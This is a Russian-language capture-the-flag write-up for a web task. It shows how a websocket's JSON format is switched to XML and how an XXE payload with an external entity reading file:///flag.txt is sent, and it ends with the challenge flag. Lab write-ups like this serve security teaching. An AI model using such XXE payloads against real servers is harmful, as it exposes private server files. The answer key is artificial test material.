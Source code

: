 # Web-1

Протестировав интерфейс сайта, заметим во вкладке *Network* коннект веб сокета с сервером, по котору происходит передача данных:

![](1.png)

Просмотрев исходниый код *script.js* видим передачу данных JSON с предшифровкой и последующей отправкой на сервер:

```js
...
let data = JSON.stringify(encrypted({format: 'json', data: {countries: countries, startdate: startDate, enddate: endDate, resttype: restType}}));
socket.send(data);
...
```

Попробуем изменить формат передачи данных на XML, и посмотрим, что ответит сервер:

```js

socket.addEventListener('message', (event) => {
    ...
    console.log(event.data);
    ...
}

function calculate() {
    ...
    let data = JSON.stringify(encrypted({format: 'xml', data: {countries: countries, startdate: startDate, enddate: endDate, resttype: restType}}));
    socket.send(data);
}
```

![](2.png)

Отлично, сервер принимает XML, подготовим и отправим payload, использующий уязвимость XXE.

```
{format: 'xml', data: '<!--?xml version="1.0" ?--><!DOCTYPE replace [<!ENTITY evil SYSTEM "file:///flag.txt"> ]><data><countries>&evil;</countries><startdate>x</startdate><enddate>x</enddate><resttype>1</resttype></data>'}
```

Атака прошла успешно, флаг получен

![](3.png)

Ответ: nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}
